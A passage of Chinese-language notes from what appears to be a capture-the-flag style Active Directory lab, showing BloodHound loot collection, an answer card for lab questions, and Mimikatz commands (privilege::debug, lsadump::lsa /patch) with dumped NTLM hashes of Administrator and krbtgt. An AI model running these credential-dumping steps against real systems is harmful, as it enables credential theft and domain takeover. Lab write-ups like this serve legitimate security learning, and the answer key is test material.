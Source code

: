 ### 目標機產生 zip後 複製到攻擊機
```
scp  Administrator@10.10.173.144:20230406061102_loot.zip 
```


### 打開 BloodHound
1.會進入一個圖型化介面，使用上傳的方式上傳zip檔
2.接者左邊會有一個菜單，可以瀏覽分析資訊
以上都做到的話，就可以答題了。




### 答題卡:
```
什麼服務也是域管理員
SQLSERVICE


哪兩個用戶是 Kerberoastable 的？
SQLSERVICE, KRBTGT

```



## Mimikatz 
是一種非常流行且功能強大的後期開發工具，主要用於在活動目錄網絡中轉儲用戶憑據
我們將專注於使用 mimikatz 轉儲 NTLM 哈希，然後使用 hashcat 破解這些哈希



```
mimikatz.exe

privilege::debug
```
 
確保輸出為“Privilege '20' ok”——這確保您以管理員身份運行 mimikatz；如果您不以管理員身份運行 mimikatz，mimikatz 將無法正常運行




### 轉儲哈希值
```
lsadump::lsa /patch
```


```
RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 2777b7fec870e04dda00cd7260f7bee6

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 5508500012cc005cf7082a9a89ebdfdf

RID  : 0000044f (1103)
User : Machine1 
LM   :
NTLM : 64f12cddaa88057e06a81b54e73b949b
```